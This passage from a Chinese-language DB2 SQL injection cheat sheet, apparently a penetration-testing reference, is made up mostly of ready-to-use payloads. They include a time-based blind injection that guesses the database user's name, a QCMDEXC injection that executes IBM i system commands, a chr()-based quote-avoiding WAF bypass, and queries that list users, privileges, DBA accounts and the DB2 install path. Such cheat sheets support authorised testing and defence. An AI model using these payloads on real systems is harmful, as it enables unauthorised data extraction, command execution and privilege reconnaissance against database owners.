 如果用户以 ASCII 68 ('D') 开头，执行重量级查询，延迟响应。

```sql
' and (SELECT count(*) from sysibm.columns t1, sysibm.columns t2, sysibm.columns t3)>0 and (select ascii(substr(user,1,1)) from sysibm.sysdummy1)=68 
```

## DB2 命令执行

> 可以使用 QSYS2.QCMDEXC() 过程和标量函数在 IBM i（以前称为 AS-400）上执行 IBM i CL 命令。

在 IBM i（以前称为 AS-400）上使用 `QSYS2.QCMDEXC()`，可以实现命令执行。

```sql
'||QCMDEXC('QSH CMD(''system dspusrprf PROFILE'')')
```

## DB2 WAF 绕过

### 避免引号

```sql
SELECT chr(65)||chr(68)||chr(82)||chr(73) FROM sysibm.sysdummy1
```

## DB2 账户与权限

| 描述           | SQL 查询                                              |
| --------------- | ---------------------------------------------------- |
| 列出用户       | `select distinct(grantee) from sysibm.systabauth`    |
| 列出用户       | `select distinct(definer) from syscat.schemata`      |
| 列出用户       | `select distinct(authid) from sysibmadm.privileges`  |
| 列出用户       | `select grantee from syscat.dbauth`                  |
| 列出权限       | `select * from syscat.tabauth`                       |
| 列出权限       | `select * from SYSIBM.SYSUSERAUTH — 列出 db2 系统权限` |
| 列出 DBA 账户  | `select distinct(grantee) from sysibm.systabauth where CONTROLAUTH='Y'` |
| 列出 DBA 账户  | `select name from SYSIBM.SYSUSERAUTH where SYSADMAUTH = 'Y' or SYSADMAUTH = 'G'` |
| 数据库文件位置  | `select * from sysibmadm.reg_variables where reg_var_name='DB2PATH'` |

## 参考文献

* [DB2 SQL 注入速查表 - Adrián - 2012年5月20日](https://securityetalii.es/2012/05/20/db2-sql-injection-cheat-sheet/)
* [Pentestmonkey 的 DB2 SQL 注入速查表 - @pentestmonkey - 2011年9月17日](http://pentestmonkey.net/cheat-sheet/sql-injection/db2-sql-injection-cheat-sheet)
* [QSYS2.QCMDEXC() - IBM 支持 - 2023年4月22日](https://www.ibm.com/support/pages/qsys2qcmdexc)